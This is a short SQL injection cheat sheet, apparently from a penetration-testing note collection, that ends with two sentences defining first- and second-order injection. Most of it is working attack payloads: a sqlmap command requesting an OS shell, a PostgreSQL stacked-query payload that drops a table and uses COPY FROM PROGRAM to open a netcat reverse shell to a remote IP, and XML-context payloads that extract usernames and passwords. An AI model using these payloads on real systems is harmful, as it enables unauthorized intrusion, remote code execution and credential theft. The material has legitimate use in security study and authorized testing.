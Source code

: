 ```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

## For postgresql

```sql
';DROP TABLE IF EXISTS commandexec; CREATE TABLE commandexec(data text);COPY commandexec FROM PROGRAM '/usr/bin/nc.traditional -c /bin/sh 192.168.45.241 4444';--
```

## SQL Injection in different contexts

```xml
<stockCheck> 
	<productId>123</productId> 
	<storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId> </stockCheck>`
```

XML:

```xml
<@dec_entities>1 UNION SELECT username || '~' || password FROM users<@/dec_entities>
```

Use hackverter

## 2nd Order SQL Injection

First-order SQL injection occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.

Second-order SQL injection occurs when the application takes user input from an HTTP request and stores it for future use. Also know as stored SQL injection.
